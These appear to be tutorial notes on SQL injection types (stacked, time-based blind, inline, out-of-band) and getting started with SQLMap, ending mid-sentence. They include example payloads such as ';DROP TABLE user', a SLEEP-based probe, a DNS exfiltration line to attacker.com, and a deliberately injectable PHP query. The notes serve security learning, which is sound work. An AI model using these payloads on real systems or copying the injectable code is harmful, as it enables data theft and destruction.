 ## Stacked queries:
`;DROP TABLE user`
Stacking SQL queries, also kwon as the 'piggy-backing', is the from of injection additional SQL statements after the vulnerable one, in case that there is required for running non-query statements stacking
must be supported by the vulnerable plataform. SQLMAp can use such vulnerabilities to run non-query statements executed in advanced features.

## Time-based blind SQL injection:
`AND 1=IF(2>1,SLEEP(5),0)`
The principle of Time-based blind SQL Injection is similar to the Bolean-based blind SQL injection, by here the response time is used as the source for the differentiation between TRUE or FALSE.
- TRUE response is generally characterized by the noticiable difference in the reponse time compared to the regular server response.
- FALSE response should result in a response time indistinguishable from regular response times.
Is considerably slower than the boolean-based SQLi, since queries resulting in TRUE would delay the sercer response. The SQLi type is used in cases where Boolean-based blind SQL INjection is not applicable.
For example, in case the vulnerable SQL statements is non-query executed as part of the auxiliary funtionality whitout any effect to the page rendering process, Time-based is used
out of the necessity, as boolean injectiuon would not really work in this base.

## INline queries:
`SELECT(SELECT @@version) from`
This type of injection embedded as query whithin the original query, SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way.

## Out-of-band SQL INjection:
`LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`
This is considered on of the most adv types of SQLi, used in cases where all other types are either unsupported by the vulnerable we app or are to slow.
By running the SQLMAP on the DNS server for the domain under control, SQLMAP can preform the attack by forcing the server to request non-existent subdomains, where foo would be the SQL response we want receive.
SQLMap can then collect these erroring DNS requests and collect to foo part, to form the entire SQL response.

# Gettting Started with SQLMAP
Basic listing shows only the basic options and switches, sufficient in most cases
`sqlmap -h
 sqlmap -hh`

## Basic Scenario:
A penetration tester access the web page that accepts user input via GET parameter. They then want to test if the web page is affected by th SQL injection vulnerability, they would want to exploit it, retrieve much
information as possible from the back-end db, or even try to access the underlying file system and execute OS commands.
```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```
As errro reporting is enable for SQL query, there will be a db error returned as part of the web-server response in case of any SQL query execution problems.
Run against the example, located ate he example:
